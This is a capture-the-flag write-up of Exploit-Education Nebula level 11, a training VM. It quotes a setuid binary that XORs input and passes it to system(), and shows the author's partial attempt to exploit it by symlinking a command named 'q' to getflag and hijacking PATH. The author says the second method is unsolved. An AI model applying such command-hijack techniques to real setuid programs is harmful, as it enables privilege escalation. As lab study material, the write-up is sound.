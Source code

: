 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 11"
date:   2019-08-19 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
--- 
```

### [Exploit Education Level 11](https://exploit.education/nebula/level-11/)

## Challenge
The `/home/flag11/flag11` binary processes standard input and executes a `shell command`.
There are two ways of completing this level, you may wish to do both :-)
To do this level, log in as the `level11` account with the password `level11`. Files for this level can be found in `/home/flag11`.

The binary accepts an input from the user and if the input contains the header `Content-length: ` it takes the number 
after the header and does a check.

```cpp
if(length < sizeof(buf)) {
if(fread(buf, length, 1, stdin) != length) {
err(1, "fread length");
}
process(buf, length);
}
```

If the size is less than `1024` it accepts further input and once the length has reached calls process.

The level can be completed in 2 ways. First way is when is length is less than `1024`.

## Vulnerabilty
The vulnerability is in the function `process`
```cpp
void process(char *buffer, int length)
{
  unsigned int key;
  int i;

  key = length & 0xff;

  for(i = 0; i < length; i++) {
      buffer[i] ^= key;
      key -= buffer[i];
  }

  system(buffer);
}
```
The process `xor`s the data and then calls system.
Lets try running the program few times.  
`test` contains the letter `q`
```bash
level11@nebula:/home/flag11$ ./flag11 < /home/level11/test
sh: q: command not found
level11@nebula:/home/flag11$ ./flag11 < /home/level11/test
sh: q: command not found
level11@nebula:/home/flag11$ ./flag11 < /home/level11/test
sh: $'qP\312': command not found
level11@nebula:/home/flag11$ ./flag11 < /home/level11/test
sh: $'q\360\342': command not found
level11@nebula:/home/flag11$ ./flag11 < /home/level11/test
sh: q: command not found
level11@nebula:/home/flag11$ ./flag11 < /home/level11/test
sh: -c: line 0: unexpected EOF while looking for matching ``'
sh: -c: line 1: syntax error: unexpected end of file
level11@nebula:/home/flag11$ cd /home/level11
```
We can see that the program is trying to execute the command `q` but the encryption is changing it into something 
else. But we can see a repeating pattern. Sometimes the program is encrypting `q` as `q`
```bash
level11@nebula:/home/flag11$ ./flag11 < /home/level11/test
sh: q: command not found
```
We can use this. If we create a program named `q` and add a `symlink` we can execute any program.
## Solution
```bash
level11@nebula:~$ touch q
level11@nebula:~$ which getflag
/bin/getflag
level11@nebula:~$ ln -s /bin/getflag q
level11@nebula:~$ PATH=/home/level11/:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
level11@nebula:~$ q
getflag is executing on a non-flag account, this doesn't count
```
Okay so now `q` points to `getflag`
Lets try running the program again
```bash
level11@nebula:/home/flag11$ ./flag11 < /home/level11/test
sh: $'q\240\200': command not found
level11@nebula:/home/flag11$ ./flag11 < /home/level11/test
sh: -c: line 0: unexpected EOF while looking for matching `"'
sh: -c: line 1: syntax error: unexpected end of file
level11@nebula:/home/flag11$ ./flag11 < /home/level11/test
sh: $'q\360A': command not found
level11@nebula:/home/flag11$ ./flag11 < /home/level11/test
sh: $'q\200\377': command not found
level11@nebula:/home/flag11$ ./flag11 < /home/level11/test
getflag is executing on a non-flag account, this doesn't count
```
We successfully executed `getflag` but its saying its being executed by a non flag account.
But our program has `setuid`. So I assume that there is any error in the program.  
I haven't figured out the second method yet.
### Kinda Solved!